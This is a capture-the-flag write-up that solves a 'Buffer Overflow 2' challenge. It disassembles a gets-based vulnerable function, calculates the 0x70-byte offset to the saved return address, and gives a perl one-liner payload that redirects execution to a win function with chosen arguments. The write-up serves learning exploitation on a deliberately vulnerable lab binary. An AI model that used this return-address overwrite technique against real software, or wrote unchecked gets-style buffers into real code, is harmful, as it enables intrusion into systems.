 # Buffer Overflow 2

Inspecting the vulnerable function, with some annotations about how far on the
stack we are from the return address

``` console
$ objdump -d -Mintel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p' 
08049338 <vuln>:
 8049338:	f3 0f 1e fb          	endbr32 
 804933c:	55                   	push   ebp      <--- -0x4
 804933d:	89 e5                	mov    ebp,esp  <--- store esp
 804933f:	53                   	push   ebx
 8049340:	83 ec 74             	sub    esp,0x74
 8049343:	e8 88 fe ff ff       	call   80491d0 <__x86.get_pc_thunk.bx>
 8049348:	81 c3 b8 2c 00 00    	add    ebx,0x2cb8
 804934e:	83 ec 0c             	sub    esp,0xc  
 8049351:	8d 45 94             	lea    eax,[ebp-0x6c] <--- load from stack
 8049354:	50                   	push   eax
 8049355:	e8 96 fd ff ff       	call   80490f0 <gets@plt>
 804935a:	83 c4 10             	add    esp,0x10
 804935d:	83 ec 0c             	sub    esp,0xc
 8049360:	8d 45 94             	lea    eax,[ebp-0x6c]
 8049363:	50                   	push   eax
 8049364:	e8 b7 fd ff ff       	call   8049120 <puts@plt>
 8049369:	83 c4 10             	add    esp,0x10
 804936c:	90                   	nop
 804936d:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 8049370:	c9                   	leave  
 8049371:	c3                   	ret    
```

We know our `buf` is passed as the argument to `gets` and we want to know the
offset between this and the return address. Inspecting the call:

``` 
 8049351:	8d 45 94             	lea    eax,[ebp-0x6c]
 8049354:	50                   	push   eax
 8049355:	e8 96 fd ff ff       	call   80490f0 <gets@plt>
```

But `ebp` was not modified since the `mov ebp, esp` instruction, so our buffer
starts at `ebp-0x6c` but `ebp` is `0x4` bytes from the return address. So our
buffer is `0x6c + 0x4 = 0x70` bytes from where the return address is stored.

We need to fill the buffer, then push the address of the `win` function, then
push another return address (this can be anything since we don't care if the
program crashes after returning from `win`), then the two arguments we want (in
little endian) e.g. (using `0xffffffff` as our throw-away return value):

``` 
$ perl -E 'say("A" x 0x70 . "\x96\x92\x04\x08" . "\xff\xff\xff\xff"  . "\x0d\xf0\xfe\xca". "\x0d\xf0\x0d\xf0")'
```
